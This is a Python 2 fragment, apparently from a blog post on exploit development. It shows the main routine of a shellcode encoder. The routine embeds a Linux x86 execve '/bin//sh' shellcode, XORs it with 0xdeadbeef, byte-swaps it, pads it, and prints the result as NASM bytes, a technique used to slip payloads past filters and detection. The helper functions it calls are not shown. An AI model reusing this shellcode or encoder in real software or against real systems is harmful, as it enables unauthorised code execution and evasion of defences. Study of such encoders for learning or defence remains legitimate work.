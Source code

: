 
def main(argv):

    key = ("\xde\xad\xbe\xef")
    shellcode=("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80")

    try:
        opts, args=getopt.getopt(argv, "h", ["help"])
    except getopt.GetoptError:
        help()
        sys.exit(1)

    for opt, arg in opts:
        if opt in ('-h', '--help'):
            help()
            sys.exit(0)
        elif opt in ('-k', '--key'):
            key=repr(binascii.unhexlify(arg)).strip("'")


    padded_shellcode = pad(shellcode)
    padded_hex=hexlify(padded_shellcode)
    print "after padding:\t" + padded_hex

    shellcode_len=int(len(padded_shellcode))
    print "payload len is:\t"+str(shellcode_len)+" ("+str(hex(shellcode_len))+")"
    ss= '{:x}'.format(shellcode_len)
    shell_len_string = swap(xor_str(ss*4, "deadbeef"))
    print "payload string:\t" + shell_len_string
    

    padded_xor_hex=""
    for i in textwrap.wrap(padded_hex, 8):
        padded_xor_hex+=xor_str(i, "deadbeef")
    print "after_xor:\t" + padded_xor_hex

    padded_xor_swapped=""
    for i in textwrap.wrap(padded_xor_hex, 8):
        padded_xor_swapped+=swap(i)

    print "after swap:\t" + padded_xor_swapped

    final_encoded_payload=shell_len_string +padded_xor_swapped
    print "final payload:\t" + final_encoded_payload

    f=""
    for x in range(0, len(final_encoded_payload), 2):
        f+= "0x"+final_encoded_payload[x:x+2]+", "

    print "NASM:\t\t" + f[:-2]


    return 0

if __name__ == "__main__":
    main(sys.argv[1:])

{% endhighlight %}
